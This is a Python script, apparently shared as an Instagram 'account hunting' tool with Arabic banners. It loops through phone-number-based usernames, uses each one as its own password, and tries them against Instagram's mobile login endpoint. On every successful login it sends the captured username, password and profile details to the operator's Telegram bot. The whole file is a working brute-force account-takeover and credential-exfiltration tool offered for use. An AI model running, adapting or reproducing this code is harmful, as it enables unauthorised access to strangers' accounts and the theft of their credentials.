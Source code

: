 0772 208 0690import os
os.system('clear')
try:
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
except ImportError:
    os.system('pip install time')
    os.system('pip install webbrowser ')
    os.system('pip install random')
    os.system('pip install requests')
    os.system('pip install user_agent')
    os.system('pip install json')
    os.system('pip install secrets')
    os.system('pip install sys')
    os.system('clear')
    from time import sleep
    import time, webbrowser, random, requests
    from uuid import uuid4
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
else:
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
    os.system('clear')
    aa = 0
    zz = 0
    E = '\x1b[1;31m'
    G = '\x1b[1;32m'
    S = '\x1b[1;33m'
    Z = '\x1b[1;31m'
    X = '\x1b[1;33m'
    Z1 = '\x1b[2;31m'
    F = '\x1b[2;32m'
    A = '\x1b[2;39m'
    C = '\x1b[2;35m'
    B = '\x1b[2;36m'
    Y = '\x1b[1;34m'
    import time
    timee = time.asctime()
    t = time.localtime()
    current_time = time.strftime('%H:%M:%S', t)

    def a(z):
        for e in z:
            sys.stdout.write(e)
            sys.stdout.flush()
            sleep(0.026)


    a(f"                      {Y}***مطور الاداة قيس التكريتي******* **بسم الله الرحمن الرحيم **** ")





    a(f"         {Y}------صيد حسابات انستقرام مقدمه من اخوكم طارق الدليمي---------"  )
    sleep(1)
    print('\n\n')
    a(G + ' \n\nالتوكن ')
    print('\n')
    tok = input(S + '     >> ' + C)
    sleep(2)
    os.system('clear')
    a(A + ' الآيدي ')
    print('\n')
    ID = input(A + '     >> ' + C)
    sleep(0.1)
    os.system('clear')
    start_msg = requests.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=LODING..... ⏸️").json()
    id_msg = start_msg['result']['message_id']

    def code_joo(userQ, password):
        cookie = secrets.token_hex(8) * 2
        head = {'HOST':'www.instagram.com', 
         'KeepAlive':'True', 
         'user-agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36', 
         'Cookie':cookie, 
         'Accept':'*/*', 
         'ContentType':'application/x-www-form-urlencoded', 
         'X-Requested-With':'XMLHttpRequest', 
         'X-IG-App-ID':'936619743392459', 
         'X-Instagram-AJAX':'missing', 
         'X-CSRFToken':'missing', 
         'Accept-Language':'en-US,en;q=0.9'}
        url_id = f"https://www.instagram.com/{userQ}/?__a=1"
        req_id = requests.get(url_id, headers=head).json()
        name = str(req_id['graphql']['user']['full_name'])
        id = str(req_id['graphql']['user']['id'])
        followes = str(req_id['graphql']['user']['edge_followed_by']['count'])
        following = str(req_id['graphql']['user']['edge_follow']['count'])
        re = requests.get(f"https://o7aa.pythonanywhere.com/?id={id}")
        ree = re.json()
        dat = ree['data']
        t = time.localtime()
        current_time = time.strftime('%H:%M:%S', t)
        joo3 = f"\n⭐️✅تعال حبيصي جبتلك حساب  ✅⭐️\n\n✔️⭐️   ⭐️✔️\n .<•> –––––––––––––––– <•>. \n .♻️. Name ➡️  : {name}\n .🔱. Use®Name☣️ : {userQ}\n .🔆. BaSsWord↪️  : {password}\n .♾. 𝕱ollowes✴️ : {followes}\n .💠. 𝕱𝖔𝖑𝖑𝖔𝖜𝖎𝖓𝖌 : {following}\n .➡️. 𝕮𝖗𝖊𝖆𝖙𝖊𝖉 𝕺𝖆𝖙𝖊 : {dat}\n .⚠️. TIⓂ️E : {current_time}\n .⛔️. 𝙩𝙝𝙞𝙨 𝙄𝙨 𝙏𝙝𝙚 𝙃𝙪𝙣𝙩 𝙉𝙪𝙢𝙗𝙚𝙧 [{zz}] ✅🤤\n .<•> –––––––––––––––– <•>.\n.🔰. 𝐂𝐡 :@Tariq_black ♦️\n"
        tlg = f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=\n {joo3} \n"
        i = requests.post(tlg)
        print(G + joo3)
        url = 'https://b.i.instagram.com/api/v1/accounts/login/'
    headers = {'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)'}
    
    
    a(F + 'iraq : 0770 or 0771 or 0772 or 0780 or 0781 or 0782 or 0783 or 0750 or 0751 or 0752                                                     ')
  
    phonenumber = input(X +
    
                                                                                                                  ' قم بادخال الرقم الذي تريد الصيد عليه :  >> ' + C)
    print(G + 'The Tool Has Been Started Successfully ✔️ ')
    sleep(0.1)
    user = '1234567890'
    while True:
        us = str(''.join((random.choice(user) for i in range(7))))
        username = phonenumber + us
        password = phonenumber + us
        from uuid import uuid4
        uid = str(uuid4())
        data = {'uuid':uid, 
         'password':password, 
         'username':username, 
         'device_id':uid, 
         'from_reg':'false', 
         '_csrftoken':'missing', 
         'login_attempt_countn':'0'}
        req = requests.post(url, headers=headers, data=data)
        if 'logged_in_user' in req.json():
            zz += 1
            userQ = req.json()['logged_in_user']['username']
            code_joo(userQ, password)
        elif '"message":"challenge_required","challenge"' in req.json():
            print(S + 'username S ==> : ' + username + ': password ==> : ' + password)
        else:
            requests.post(f"https://api.telegram.org/bot{tok}/editmessagetext?chat_id={ID}&message_id={id_msg}&text= T.A.R.K IS ALDYLIMY \n\nTh THIS TOOL BY T.A.R.K ⭐️\n->•My Channel 👇✔️\n√| @Tariq_black |√\n->• My Id 👇✔️\n√|M.S.A|√\n\n->• Hunted✔️ [{zz}]\n->•🇳\u200aNot hunted❌ [{aa}]")
            print(E + 'username ==> : ' + username + ': password ==> : ' + password)
            aa += 1
